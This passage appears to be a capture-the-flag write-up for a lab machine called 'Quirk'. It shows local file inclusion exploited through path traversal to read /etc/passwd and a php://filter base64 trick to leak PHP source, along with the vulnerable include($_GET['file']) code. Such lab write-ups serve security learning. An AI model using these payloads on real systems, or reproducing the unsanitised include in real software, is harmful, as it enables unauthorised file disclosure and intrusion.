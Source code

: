 ```bash

```

Document root is at `/var/www/html/login` . using this info we can get the source code of readme.php 

```php
url http://beta.quirk.thm/works.php?url=../../../../var/www/html/login/readme.php

<?php
echo "hey Aizawa we moved our development pages to a new vhost due to U.S.J Incident";
// I hope you read this ka.boom.quirk.thm

?>

```

Source code contains a comment which gives another vhost `ka.boom.quirk.thm` so add them in etc hosts. 
visiting the vhost gives simple page shows alpha testing file. clicking it shows working

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/9.PNG)
![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/10.PNG)

alpha.php using file=test seems like another LFI. so test it out 

```bash
curl http://ka.boom.quirk.thm/alpha.php?file=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<snip>--------------------------------
```

This time we cant get the source code like we previosly did, request the server to convert the source code to base64 then decoding it we can get the source code of the file. 

```php
┌──(ajay㉿0xAnnLynn)-[~/Quirk]
└─$ curl http://ka.boom.quirk.thm/alpha.php?file=alpha.php
┌──(ajay㉿0xAnnLynn)-[~/Quirk]
└─$ curl http://ka.boom.quirk.thm/alpha.php?file=php://filter/convert.base64-encode/resource=alpha.php | base64 -d 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   188  100   188    0     0  37600      0 --:--:-- --:--:-- --:--:-- 37600
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.html");
   }
   ?>

```

